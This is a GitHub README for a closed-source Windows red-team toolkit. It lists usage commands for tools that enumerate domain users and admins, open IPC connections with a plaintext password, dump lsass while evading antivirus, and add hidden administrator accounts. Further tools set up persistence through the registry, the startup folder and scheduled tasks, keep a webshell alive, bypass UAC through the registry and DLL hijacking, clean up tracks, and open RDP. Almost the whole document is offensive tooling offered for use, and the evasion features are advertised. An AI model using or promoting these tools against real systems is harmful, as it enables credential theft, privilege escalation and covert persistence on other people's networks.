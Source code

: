 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

```
Notes:
Some tools introduce you can go to my blog, you can get more design details

Blog address:
https://yangsirrr.github.io/
```

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)
## 16Use The Registry To Bypassuac(BypassAV)
```
Now this program have six plans to bypassuac in win10 maybe can use in win7(I don't have win7 machine to test)
you can easy to use, such as 16x64.exe 1or2or3or4or5or6 cmd.exe
16x64.exe 5 cmd.exe
```
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/1.png)
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/2.png)

## 17Use DLL Hijack To Bypassuac

```
After a simple test, two methods win10, Win11 can be successfully used
make sure upload the exe&jpg to your target windows, you can easy to use:
pic1_a.exe or pic2_a.exe

when you success, don't forget to clean up the tracks:
picall_clean.exe
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009131805909.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009143909641.png)

```
bypass result
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/bypass.gif)

## 18Fast Open Rdpport(BypassAV)

```
Easy to open the rdpport win10 can be success
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18.gif)

